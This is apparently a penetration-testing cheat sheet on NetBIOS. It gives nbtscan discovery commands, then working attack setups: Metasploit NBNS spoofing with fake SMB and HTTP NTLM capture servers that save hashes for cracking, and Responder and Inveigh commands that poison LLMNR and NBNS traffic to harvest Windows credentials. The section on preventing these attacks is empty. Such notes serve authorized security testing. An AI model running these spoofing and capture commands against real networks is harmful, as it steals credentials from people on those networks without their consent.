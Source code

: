 # 137 - Netbios

### Broadcast discovery

```
nbtscan 172.18.2.0/24
	
172.18.2.9:GCDTA0000:00U
172.18.2.9:WORKGROUP:00G
172.18.2.9:GCDTA0000:20U
172.18.2.9:MAC:00-23-7d-aa-72-c2
```

### nbt-wizz version version:

Download:

```
wget http://www.unixwiz.net/tools/nbtscan-1.0.35-redhat-linux
```

```
root@Kali:~/Downloads# ./nbtscan-1.0.35-redhat-linux -A 192.168.0.15 
192.168.0.38    WORKGROUP\DOOKOSSEL             SHARING 
  DOOKOSSEL      <00> UNIQUE Workstation Service 
  DOOKOSSEL      <03> UNIQUE Messenger Service<3> 
  DOOKOSSEL      <20> UNIQUE File Server Service 
  ..__MSBROWSE__.<01> GROUP  Master Browser 
  WORKGROUP      <00> GROUP  Domain Name 
  WORKGROUP      <1d> UNIQUE Master Browser 
  WORKGROUP      <1e> GROUP  Browser Service Elections 
  00:00:00:00:00:00   ETHER
```

### Windows NBTSCAN

{% embed url="http://www.unixwiz.net/tools/nbtscan-1.0.35.exe" %}

### Netbios Spoofing

#### Metasploit

```bash
set LHOST 10.44.1.112  # Set your local IP once, and then reuse it
```

```bash
use auxiliary/server/capture/smb
set CAINPWFILE /netbios/cain.
set JOHNPWFILE /netbios/john. 
set LOGFILE /netbios/SMB_LOG.txt
set SRVHOST $LHOST  # Using LHOST for the server IP
run

use auxiliary/server/capture/http_ntlm
set CAINPWFILE /netbios/cain-http
set JOHNPWFILE /netbios/john-http
set SRVHOST $LHOST  # Using LHOST for the server IP
set SRVPORT 80
set URIPATH /
run

use auxiliary/spoof/nbns/nbns_response
set INTERFACE eth0
set SPOOFIP $LHOST  # Using LHOST for the spoofed IP
run
```



### Capture Netbios broadcasts

#### Responder

```
sudo python3.9 /usr/share/responder/Responder.py -I eth0 -w -f -v
```

#### Inveigh - (Powershell Responder)

requires privileged user.

https://n0where.net/windows-powershell-llmnrnbns-spoofer-inveigh\
https://github.com/Kevin-Robertson/Inveigh

```
cd C:\Users\Leon\powermenu\Inveigh\Inveigh-master
Import-Module .\Inveigh.psm1
```

To execute with default settings

```
Invoke-Inveigh
```

To execute with features enabled/disabled

```
Invoke-Inveigh -LLMNR Y -NBNS Y -HTTP Y -HTTPS Y -SMB Y -ConsoleOutput Y -IP <yourIP>
```

You must Stop Inveigh manually

```
Stop-Inveigh
```

### Preventing Netbios attacks
